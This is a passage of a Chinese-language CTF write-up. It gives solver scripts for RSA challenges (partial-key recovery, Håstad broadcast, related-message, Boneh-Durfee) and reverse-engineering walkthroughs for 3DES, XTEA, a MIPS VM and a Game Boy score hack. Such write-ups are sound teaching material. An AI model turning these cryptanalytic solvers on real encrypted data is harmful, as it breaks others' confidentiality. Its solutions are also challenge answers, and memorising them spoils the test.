    kbits = 512
    d0 = 0x9ecc17505fbf9d62b687888b52421ecdb844fc352b64d8303ba41b04039536140eb6d0c55ce9fe2b5ec8ed262869f36c482a25efd8b9e400fe9fdc090455f92b
    print "lower %d bits (of %d bits) is given" % (kbits, nbits)

    p = find_p(d0, kbits, e, n)
    print p
    #print "found p: %d" % p
    q = n//p
    #print d
    print inverse_mod(e, (p-1)*(q-1))
    assert n % p == 0
    q = n/int(p)
    print "q: ", hex(int(q))
    print gcd(p,q)
    phin = (p-1)*(q-1)
    print gcd(e,phin)
    d = inverse_mod(e,phin)
    flag = pow(cipher,d,n)
    print  hex(int(flag))
```

### 第四层

```python
[+]Generating challenge 4
[+]e=3
[+]m=random.getrandbits(512)
[+]n1=0xafa69b2201cdac8c7ca65e2e923e162a6b67be47e0d75d68fe863b41807f52873da023cd7d2b395bb42e4a487c9f548e897f19858d0490e41c61cc4e4d948d85e2d779543dd22889c37f63dd30104b465dee1c0625b3f6b218426edf3112dcf14f8bebf9307cfbe32a6a3e1c82dc821ca7afb1ed751cd77e303c5f53b02e3247L
[+]c1=pow(m,e,n1)=0x844183d6ab43184b3f2272c57d67ee2038b652905a3222759203a7c3cfa613e8fc54a894c045274337da098a7d41604547e37c28442af516bb505e6f4c9b05406daa2311631edd5cb5f6ccfaf0c1f14042a34c232bd6a90209de9a71aedcacf4df897d8cd17604eb4d9c6a27324049e33ebd4c5f5d34dea592819e86e6a64914L
[+]n2=0x30505097dd14611027e2496c0b3d15b7ae71ee564d158b55af2b30dba70b25895c43bd0b9b02c8247a08694e141b8a2b9ebc78347faa4865fdb83ad14956db4bb8d4d5d36f50b592b9fc17c539db5d5986197175ebaeb2de7e1a2f36f8f78e541fa863f41c86c166a8c572f5793e6c7be1ba7ebaea82a176fbd21a1a36331c91L
[+]c2=pow(m,e,n2)=0xc0f31b162b23a7833ffd4542cf4512ee421612324719a051b24ec0e7243a17dc44ea6a5db030cfb85cdc16505416c4cc9a9b7afb9872077e43a656f163fcf2f4a408515c721ebe5bbb38936e11604e958e3e254466a8e2ea85a2855f80262c81034b242ce44a241e7486c3347d68008053ea65a369516f6bf97554a832ce691L
[+]n3=0x4659b6de60b471c8b2d906a1bab55307176bbe26fa66b365dc1c4dfe936e6fa684229a0a05903a61b5024b4aac055f288d80b2c56b84224c57000f7dd4f9fdace70d528475a2643bdde7ee72bfedd3dc131a52ae05a5024a10b4c8ad6508f0524e314c61eeec1b15ceba83199b2bcfa76161f20fa936fb8bd26eaaa81f0f5383L
[+]c3=pow(m,e,n3)=0x181f643f693a975c18a93255e2ab97e29d47a1b0d5f11563048a8688fbc3ab430be76267859b965fcf4fc1b760d268e8af06a10b1b73a67f18e9adebdbb14a46c43d510eccca55e530cb4099751fbb0a3a61bb3787e36507f191687bd927e9b5b34813bc0ee180b5a39459593b0180cc748db15ecd3d262ad9a1f013c9d78735L
[-]long_to_bytes(m).encode('hex')=$
```

广播攻击

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
import gmpy2
n = [
0xafa69b2201cdac8c7ca65e2e923e162a6b67be47e0d75d68fe863b41807f52873da023cd7d2b395bb42e4a487c9f548e897f19858d0490e41c61cc4e4d948d85e2d779543dd22889c37f63dd30104b465dee1c0625b3f6b218426edf3112dcf14f8bebf9307cfbe32a6a3e1c82dc821ca7afb1ed751cd77e303c5f53b02e3247,
0x30505097dd14611027e2496c0b3d15b7ae71ee564d158b55af2b30dba70b25895c43bd0b9b02c8247a08694e141b8a2b9ebc78347faa4865fdb83ad14956db4bb8d4d5d36f50b592b9fc17c539db5d5986197175ebaeb2de7e1a2f36f8f78e541fa863f41c86c166a8c572f5793e6c7be1ba7ebaea82a176fbd21a1a36331c91,
0x4659b6de60b471c8b2d906a1bab55307176bbe26fa66b365dc1c4dfe936e6fa684229a0a05903a61b5024b4aac055f288d80b2c56b84224c57000f7dd4f9fdace70d528475a2643bdde7ee72bfedd3dc131a52ae05a5024a10b4c8ad6508f0524e314c61eeec1b15ceba83199b2bcfa76161f20fa936fb8bd26eaaa81f0f5383
]
C = [
0x844183d6ab43184b3f2272c57d67ee2038b652905a3222759203a7c3cfa613e8fc54a894c045274337da098a7d41604547e37c28442af516bb505e6f4c9b05406daa2311631edd5cb5f6ccfaf0c1f14042a34c232bd6a90209de9a71aedcacf4df897d8cd17604eb4d9c6a27324049e33ebd4c5f5d34dea592819e86e6a64914,
0xc0f31b162b23a7833ffd4542cf4512ee421612324719a051b24ec0e7243a17dc44ea6a5db030cfb85cdc16505416c4cc9a9b7afb9872077e43a656f163fcf2f4a408515c721ebe5bbb38936e11604e958e3e254466a8e2ea85a2855f80262c81034b242ce44a241e7486c3347d68008053ea65a369516f6bf97554a832ce691,
0x181f643f693a975c18a93255e2ab97e29d47a1b0d5f11563048a8688fbc3ab430be76267859b965fcf4fc1b760d268e8af06a10b1b73a67f18e9adebdbb14a46c43d510eccca55e530cb4099751fbb0a3a61bb3787e36507f191687bd927e9b5b34813bc0ee180b5a39459593b0180cc748db15ecd3d262ad9a1f013c9d78735
]

#N = n1*n2*n3…n19
N = 1
for i in n:
    N *= i

#Ni = N/ni
Ni = []
for i in n:
    Ni.append(N/i)

#ti*Ni == 1 mod ni
T = []
for i in xrange(3):
    T.append(long(gmpy2.invert(Ni[i], n[i])))

#X = (c1*t1*N1)%N + (c2*t2*N2)%N + … + (ci*ti*Ni)%N
X = 0
for i in xrange(3):
    X += C[i]*Ni[i]*T[i]

#m**19 = X
m3 = X % N
m,b = gmpy2.iroot(m3,3)
print hex(int(m))
```

### 第五层

```python
[+]Generating challenge 5

[+]n=0x5d06d350f270f968bbd76e1ba94adbf1fe566a92665b3418574fe95ae553744216e097450abac2a28330575645dbf1c4e0a89d2405485dce96cc8ddbcb249bf88bd8cb18f942d5853544a7e6828b62ce6292138d503a8134640f33948c1478a7825a7444acfc5c5f38f8ba53e5193a9513c104db4ed47bbe6dc1157f8e6fee3L

[+]e=3
[+]m=random.getrandbits(512)
[+]c=pow(m,e,n)=0x299c9afd0f50af728127963f48fc5f132b8a2f5f91a0dee15bef79fc2ee5e5d4b813c409c14f796b8fef84c8a49ad0affb59b9b0bb068c14e005428c35a54093b3103d93360a040a78bc5dfbbb9889a61e0b3e3fd94f5542519c6f2eaf669059e7d6cbce1083fd0777d5ee61d19e1fe4684ebcf13d5d64c3fccf87efa76f942L
[+]x=pow(m+1,e,n)=0x5b775448be0156a73ade0d637bef267106cd5595419a147ceea2df26d0356d425c26a4c4fb925352d2cdb9006827f3ec1f4c6e552530165a2edae43bc4c7968a8bf8d881cc54f1a56a6b003a1cda89659953493500d13e7b63da975b3f2b7489431048c5e57cdba5dc41991bf8e65a8232db3d233bf5c951531b5e5cb386328L
[-]long_to_bytes(m).encode('hex')=$
```

Related Message Attack，两明文存在线性关系时使用

```python
import gmpy2
p1=1
p2=0
#0\n
c2 =0x299c9afd0f50af728127963f48fc5f132b8a2f5f91a0dee15bef79fc2ee5e5d4b813c409c14f796b8fef84c8a49ad0affb59b9b0bb068c14e005428c35a54093b3103d93360a040a78bc5dfbbb9889a61e0b3e3fd94f5542519c6f2eaf669059e7d6cbce1083fd0777d5ee61d19e1fe4684ebcf13d5d64c3fccf87efa76f942
#1\n
c1 =0x5b775448be0156a73ade0d637bef267106cd5595419a147ceea2df26d0356d425c26a4c4fb925352d2cdb9006827f3ec1f4c6e552530165a2edae43bc4c7968a8bf8d881cc54f1a56a6b003a1cda89659953493500d13e7b63da975b3f2b7489431048c5e57cdba5dc41991bf8e65a8232db3d233bf5c951531b5e5cb386328
n =0x5d06d350f270f968bbd76e1ba94adbf1fe566a92665b3418574fe95ae553744216e097450abac2a28330575645dbf1c4e0a89d2405485dce96cc8ddbcb249bf88bd8cb18f942d5853544a7e6828b62ce6292138d503a8134640f33948c1478a7825a7444acfc5c5f38f8ba53e5193a9513c104db4ed47bbe6dc1157f8e6fee3
a = 1
b = p1-p2


def getmessage(a, b, c1, c2, n):
    b3 = gmpy2.powmod(b, 3, n)
    part1 = b * (c1 + 2 * c2 - b3) % n
    part2 = a * (c1 - c2 + 2 * b3) % n
    part2 = gmpy2.invert(part2, n)
    return part1 * part2 % n


message = getmessage(a, b, c1, c2, n) -p2
print message
message = hex(message)[2:]

print message
```

### 第六层

```python
[+]Generating challenge 6
[+]n=0xbadd260d14ea665b62e7d2e634f20a6382ac369cd44017305b69cf3a2694667ee651acded7085e0757d169b090f29f3f86fec255746674ffa8a6a3e1c9e1861003eb39f82cf74d84cc18e345f60865f998b33fc182a1a4ffa71f5ae48a1b5cb4c5f154b0997dc9b001e441815ce59c6c825f064fdca678858758dc2cebbc4d27L
[+]d=random.getrandbits(1024*0.270)
[+]e=invmod(d,phin)
[+]hex(e)=0x11722b54dd6f3ad9ce81da6f6ecb0acaf2cbc3885841d08b32abc0672d1a7293f9856db8f9407dc05f6f373a2d9246752a7cc7b1b6923f1827adfaeefc811e6e5989cce9f00897cfc1fc57987cce4862b5343bc8e91ddf2bd9e23aea9316a69f28f407cfe324d546a7dde13eb0bd052f694aefe8ec0f5298800277dbab4a33bbL
[+]m=random.getrandbits(512)
[+]c=pow(m,e,n)=0xe3505f41ec936cf6bd8ae344bfec85746dc7d87a5943b3a7136482dd7b980f68f52c887585d1c7ca099310c4da2f70d4d5345d3641428797030177da6cc0d41e7b28d0abce694157c611697df8d0add3d900c00f778ac3428f341f47ecc4d868c6c5de0724b0c3403296d84f26736aa66f7905d498fa1862ca59e97f8f866cL
```

Boneh and Durfee attack，使用[https://github.com/mimoo/RSA-and-LLL-attacks](https://github.com/mimoo/RSA-and-LLL-attacks)上脚本即可

### 参考链接

[https://ctf-wiki.github.io/ctf-wiki/crypto/asymmetric/rsa/rsa_coppersmith_attack/#\_1](https://ctf-wiki.github.io/ctf-wiki/crypto/asymmetric/rsa/rsa_coppersmith_attack/#_1)
[https://code.felinae98.cn/ctf/crypto/rsa%E5%A4%A7%E7%A4%BC%E5%8C%85%EF%BC%88%E4%BA%8C%EF%BC%89coppersmith-%E7%9B%B8%E5%85%B3/](https://code.felinae98.cn/ctf/crypto/rsa%E5%A4%A7%E7%A4%BC%E5%8C%85%EF%BC%88%E4%BA%8C%EF%BC%89coppersmith-%E7%9B%B8%E5%85%B3/)
[https://sagecell.sagemath.org/](https://sagecell.sagemath.org/)
[https://github.com/maojui/Cytro](https://github.com/maojui/Cytro)

## 鲲or鳗orGame

先从游戏页面的 mobile.js 里找到游戏源文件`rom/game.gb`，linux 上下一个模拟器，这里用的是 mgba-qt，用它带的 memory search 搜索游戏分数，定位到地址 dfdd


在游戏开始的时候 ctrl+p 暂停游戏，更改 dfdd 改为 FF，自杀再玩一次拿到 flag


## JustRe

### 太长不看

输入，过两个检查函数，输出输入的 flag。第一个检查是一个线性函数，爆破位数较小的参数，第二个检查是 3DES 解密之后逐字节比较。

### check1

输入的前八字符判断是否属于[0-9A-Z]然后按照 16 进制读取成 4 字节，然后重复四次，放入 xmm 变量 part1，这里其实存在一个漏洞，如果输入的字符在[G-Z]之间，实际上导致了多解。


之后是一段和前面比较相似的流程，将(输入 flag 的第九字节的 ascii 码乘上 16)加上(第十字节按 16 进制解释)，得到的值截取一字节，重复 16 次，放入 xmm 变量 part2


然后是一段运算，这里使用的 4053C4 这个量来自于库函数写入的全局变量，推测是和 cpu 对于 sse 指令集的支持有关，观察这段指令，如果执行了 if 块中的内容，从 Buffer 地址开始的 4 个 128 位的部分会被写入，然后循环变量 v20 会被设置为 24，v20 在 i32 数组中用作下标，所以

> 4*(128/8)==16*4(sizeof i32)

也就是说此处 if 块中的操作应该与下方 dowhile 的完全相同，那么从比较清晰的 dowhile 来看，这里是将前面流程 flag 第一部分算出的四字节量、第二部分算出的一字节量、当前循环轮数和一个常量数组进行了线性运算，再往下的流程里对运算的结果和一个常量数组进行了逐位比较，所以这里的目标就是让运算结果和常量数组一致。
这里因为每个方程里有两个未知数，其中一个是只有一字节的，所以可以爆破

```C
int i0 = 0x79B19266;int o0 = 0x83EC8B55;
int i1 = 0xE88EBBB6;int o1 = 0xEC81F0E4;
int i2 = 0xFC0D093B;int o2 = 0x00000278;
for (int j = -128; j != 128; j++) {
   	int flag = o0 ^ ((0x01010101 * j) + i0);
   	if (o1 == ((flag + 1) ^ (0x01010101 * j + i1))
    	&& o2 == ((flag + 2) ^ (0x01010101 * j + i2)))
   		cout << flag <<' '<<j<< endl;
}
```

跑出一组，按照前面分析的对应关系还原成 flag 即可。
过了 check 有个奇怪的`xor eax, eax; mov [eax], eax;` 会尝试写 0 地址，几乎必定导致程序崩溃，patch 掉它就好，然后会把之前的常量数组写到 check2 的开头，但是和 check2 原有的代码没有差别，所以估计是忘改了？

### check2

开头给了一个奇怪的可见字符串，长度 24。初始化了一些空间，然后把这个 24 的字符串每 8 字符(和三块不同空间)分别调用了同一个函数。然后将 flag 从 10 开始的部分复制到一个新空间，`v2 = strlen(flag_part);memset(&Dst[v2], (8 - v2 % 8), 8 - v2 % 8);` 非常像是 PKCSpadding。
之后，以八字节为单位，对 padding 后的 flag 和之前生成的三个空间进行了一些运算。运算中出现了 0x3333 0x5555 0xF0F0 这样的对特定位取值的魔数。同时有一个这样的调用->


(注：这个库是打过 patch 的，原来这里的调用是 101 加解加 对应的是加密过程)
这就比较像 3DES 了，然后搜索魔数确定算法确实是 3DES。接下来两条路，

1. 修改 3DES 三次调用加密变解密
   - 加密流程：加密(key0);解密(key1);加密(Key2);
   - 解密流程：解密(key2);加密(key1);解密(Key0);
2. 网上找个 3DES 解密工具先试试,结果直接出来了,将两部分拼起来即为 flag。

## Webassembly

### 太长不看

js 上的 WebAssembly，XTEA 加密后逐字节比较。IDA 牛逼!!!

### \_main

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ......//略去一些内容
  f54(v5, v4);//动调发现这个函数做了输入
  g7 = v4;
  f15(v3);//结果的输出在这个函数里，所以猜测判断在这里
  g7 = v3;
  --wasm_rt_call_stack_depth;
  return 0;
}
```

### f15

函数中有几个下面这样的片段,而且多次地对 V54 这个恒为 0 的数组做取值，猜测是某种常见的加密算法。

```c
v43 = 0;
v39 = i32_load(Z_envZ_memory, a1 + 12);//相当于 v39=*(int *)(((char *)a1)+12);
v47 = i32_load(Z_envZ_memory, a1 + 8);//从wasm转换成c代码导致的
v50 = 0;
do
{
    v47 += ((unsigned __int64)i32_load(Z_envZ_memory, v54 + 4 * (v43 & 3)) + v43) ^ (((v39 >> 5) ^ 16 * v39) + v39);
    v43 -= 0x61C88647;//魔数
    v39 += ((unsigned __int64)i32_load(Z_envZ_memory, v54 + 4 * ((v43 >> 11) & 3)) + v43) ^ (((v47 >> 5) ^ 16 * v47)+ v47);
    ++v50;//循环变量
}
while ( v50 != 32 );
```

又做了一些搜索之后(搜索了移位的常量 5 11)，我找到了这个：XTEA 算法

```c
void encipher(uint32_t v[2], uint32_t const key[4]) {
    unsigned int i;
    uint32_t v0=v[0], v1=v[1], sum=0, delta=0x9E3779B9;
    for (i=0; i < 32; i++) {
        v0 += (((v1 << 4) ^ (v1 >> 5)) + v1) ^ (sum + key[sum & 3]);
        sum += delta;
        v1 += (((v0 << 4) ^ (v0 >> 5)) + v0) ^ (sum + key[(sum>>11) & 3]);
    }
    v[0]=v0; v[1]=v1;
}
```

然后就是解密了，因为这次修改了算法的魔数，所以网上找解密工具是没用了，找份源码改掉魔数试试。


## 设备固件

### 太长不看

mips 架构，两个检查函数，第一个是简单的比较，第二个里面是个 vm，指令集只有取数据、简单运算、比较和跳转，检查逻辑大约相当于： `Const[i]=(((0x10<<8)+0x24+((i)*(i+1))/2)*flag[i])>>6`

### main

输入用户名密码，分别存在同一个 0x50 的前后 0x28 空间中

### chk1

```C
uint chk1(char *pcParm1)//输入字符串
{
  char cVar1;
  int iVar2;
  char *pcVar3;
  iVar2 = ((int)pcParm1[4] ^ 0x32U) + ((int)pcParm1[3] ^ 99U) + ((int)pcParm1[2] ^ 0x65U) + ((int)pcParm1[1] ^ 0x65U) + ((int)*pcParm1 ^ 0x30U);//逐位异或结果求和
  pcVar3 = pcParm1 + 5;//第字符6开始
  do {
    cVar1 = *(pcVar3++);
    iVar2 += (int)cVar1;//加到比较变量上
  } while (pcVar3 != pcParm1 + 0x28);//等于缓冲区长度
  return (iVar2 == 0);//结果是0所以所有加的数都是零。
}
```

### chk2

```C
int chk2(int iParm1)//还是传入的字符串
{
  char *arr;
  int iVar1;
  int *const_ARR;
  char *_pass;
  int *tran_const;
  short *tran_pass;
  int uVar2;
  arr = (char *)malloc(0x100);//保存了虚拟状态
  const_ARR = null_ARRAY_00411040;//指向地址0x411040的int[32]数组
  *(int *)arr = 0;
  _pass = (char *)(iParm1 + 0x28);//指向输入的密码 实际长度只有32
  tran_pass = (short *)(arr + 0x10);//指向虚拟机状态结构体 short[40]数组
  tran_const = (int *)(arr + 0x60);//指向虚拟机状态 保存常量的int[32]数组
  do {
    uVar2 = *const_ARR;//取040数组当前量
    const_ARR = const_ARR + 1;//指针指向下一个
    *tran_pass = (short)*_pass;//取密码数组第一个 拓宽到short放入short数组
    _pass = _pass + 1;//密码指针指向下一个
    *tran_const = uVar2;//常量数组放入040数组的一个量
    tran_pass = tran_pass + 1;//移动放密码的指针
    tran_const = tran_const + 1;//移动常量的指针
  } while (const_ARR != (int *)null_ARRAY_ARRAY_004110c0);//实际复制040到0c0 32轮
  *(int *)(arr + 8) = 0x4110c0;
  *(int *)(arr + 0xc) = 0x4111c0;
  iVar1 = FUN_00400800(arr);//虚拟机执行
  return iVar1;
}
```

通过分析函数 FUN_00400800，确定了以下内容，其中，如果某条指令的“条件标记”不为零，那么在执行指令之前会检查此处的条件标记和 p 判零寄存器是否相等
arr 结构
|偏移|类型|名称|用途|
|----|----|----|-|
|0x00|int |X|指令指针寄存器|
|0x04|int |ZF|判零寄存器|
|0x08|CODE* |4110c0|代码指针|
|0x0c|int* |4111c0|变量空间|
|0x10|short[40]|tran_pass|密码扩充成 short|
|0x60|int[32]|const_ARR|411040 中的常量|

虚拟机指令
|操作码|条件标记|第一参数|第二参数|
|-|-|-|-|
|1 字节|1 字节|2 字节|2 字节|
VM 中模拟的寄存器有以下几个：
返回值 AX 指令位置 IP 通用寄存器 R0-R9RA-RF 判零寄存器 ZF
下面是逆向出的指令 (符号为之后的伪码部分使用的助记符)
|操作码|符号|num1|num2|行为|
|-----|-|-------|------|----|
|0x01|add|寄存器|寄存器|num1+=num2|
|0x02|sub|寄存器|寄存器|num1-=num2|
|0x03|cmp|寄存器|寄存器|ZF=(num1==num2?1:2)|
|0x04|jmp|**立即数**|-|IP+=num1|
|0x05|mov|寄存器|寄存器|num1=num2|
|0x06|-|寄存器|-|num1=IP|
|0x07|-|寄存器|-|IP=num1|
|0x08|-|寄存器|**立即数**|num1=nmu2|
|0x09|ret|-|-|返回 0|
|0x0A|load|寄存器|寄存器|num1=tran_pass\[num2\]|
|0x0B|load|寄存器|寄存器|num1=const_ARR\[num2\]|
|0x0C|xor|寄存器|寄存器|num1^=num2|
|0x0D|imul|寄存器|寄存器|num1\*=num2|
|0x0E|DIV|寄存器|寄存器|num1/=num2|
|0x0F|shl|寄存器|寄存器|num1<<=num2|
|0x10|shr|寄存器|寄存器|num1>>=num2|
|0xFF|ret|-|-|返回 1|

然后根据这些内容分析 4110c0 中的代码，得到：
|地址|数据|指令|
|---:|:-:|:---|
|004110c0 |08 00 00 00 20 00| mov R0, 0x20|
|004110c6 |08 00 01 00 00 00| mov R1, 0x00|
|004110cc |08 00 02 00 01 00| mov R2, 0x01|
|004110d2 |03 00 01 00 00 00| cmp R1, R0|
|004110d8 |04 01 16 00 00 00| jz +0x16|
|004110de |08 00 0b 00 00 00| mov RB, 0x00|
|004110e4 |08 00 0c 00 00 00| mov RB, 0x00|
|004110ea |01 00 0c 00 0b 00| add RB, RB|
|004110f0 |03 00 0b 00 01 00| cmp RB, R1|
|004110f6 |01 00 0b 00 02 00| add RB, R2|
|004110fc |04 02 fc ff 00 00| jnz -0x04|
|00411102 |08 00 03 00 08 00| mov R3, 0x08|
|00411108 |08 00 04 00 06 00| mov R4, 0x06|
|0041110e |08 00 09 00 10 00| mov R9, 0x10|
|00411114 |0f 00 09 00 03 00| shl R9, R3|
|0041111a |08 00 0a 00 24 00| mov Ra, 0x24|
|00411120 |01 00 09 00 0a 00| add R9, Ra|
|00411126 |01 00 09 00 0c 00| add R9, RB|
|0041112c |0a 00 05 00 01 00| LOAD R5, R1 //\_pass|
|00411132 |0d 00 05 00 09 00| imul R5, R9|
|00411138 |05 00 06 00 05 00| mov R6, R5|
|0041113e |10 00 06 00 04 00| shr R6, R4|
|00411144 |0b 00 07 00 01 00| LOAD R7, R1 //\_const|
|0041114a |03 00 06 00 07 00| cmp R6, R7 |
|00411150 |01 00 01 00 02 00| add R1, R2|
|00411156 |04 01 e9 ff 00 00| jz -0x17|
|0041115c |04 02 01 00 00 00| jnz +1|
|00411162 |ff 00 00 00 00 00| ret 1|
|00411168 |09 00 00 00 00 00| ret 0|
|0041116e |ff 00 00 00 00 00| ret 1|

分析这份代码，逻辑大约如下，爆破拿 flag(直接除法算好像莫名有点误差)

`const_ARR[i]=(((0x10<<8)+0x24+((i)*(i+1))//2 )*tran_pass[i])>>6`


## 强网先锋-AD

直接拖入 ida，查看字符串，发现


我们的输入经过 sub_4005b7 变换之后的结果和已有常量相等就可以通过。
在这个 sub 当中，可以看到和标准 base64 特征很像的块：
<< 2，4，6，又是前面字符串中 ABCD…+/的表，可以判断是应该是一个 base64，先直接按照标准的进行解密：


